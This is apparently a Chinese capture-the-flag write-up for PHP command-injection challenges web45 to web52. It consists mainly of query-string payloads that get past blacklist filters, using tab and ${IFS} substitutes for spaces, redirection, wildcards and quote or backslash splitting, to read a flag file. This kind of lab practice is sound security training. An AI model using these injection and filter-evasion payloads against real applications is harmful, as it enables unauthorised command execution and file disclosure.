### web45

开启容器

过滤了空格


空格绕过方法

```php
%09
${IFS}
${IFS}$9
<
****
```



payload:
`/?c=tac${IFS}fla?.php||ls`

其他方法

```php
?c=nl%09fl*%0a
?c=nl<fla\g.php%0a
?c=echo${IFS}`nl${IFS}fl*`%0a		// 反引号表示无回显的命令执行，常配合echo来打印输出
```

### web46

开启容器



数字也被禁用

空格绕过方法

```php
%09
${IFS}
${IFS}$9
<
****
```

还剩下<

用\绕过过滤，
`nl%3Cfla\g.php%0a`


其他 payload

```php
?c=nl%09????.???%0a
?c=nl%09fla\g.php%0a
?c=nl%09fla''g.php%0a
```

### web47

开启容器



```
nl<fla''g.php||
```



其实跟上题 payload 一样

```php
?c=nl<fla''g.php||
?c=nl%09????.???%0a
?c=nl%09fla\g.php%0a
?c=nl%09fla''g.php%0a
?c=nl<fla*%0a
?c=nl<fla\g.php%0a
```

### web48

开启容器



过滤了更多



`?c=nl<fla\g.php%0a`

```php

?c=nl%09????.???%0a
?c=nl%09fla\g.php%0a
?c=nl%09fla''g.php%0a
?c=nl<fla\g.php%0a

```

### web49

开启容器



好像就多了%

```php
?c=nl<fla\g.php%0a
?c=nl<fla''g.php||
```



### web50

开启容器



\x09 与\x26 的含义其实就是%09（tab 键）和%26（&）
同样可以使用上题的 payload

```php
?c=nl<fla\g.php%0a
?c=nl<fla''g.php||
```

### web51

开启容器



多了个 tac，但依然不影响

```php
?c=nl<fla\g.php%0a
?c=nl<fla''g.php||
```



### web52

开启容器

`>`和`<`过滤掉了,但是`$`可以用

```php
?c=nl${IFS}fla''g.php||
?c=nl$IFS/fla''g||

```


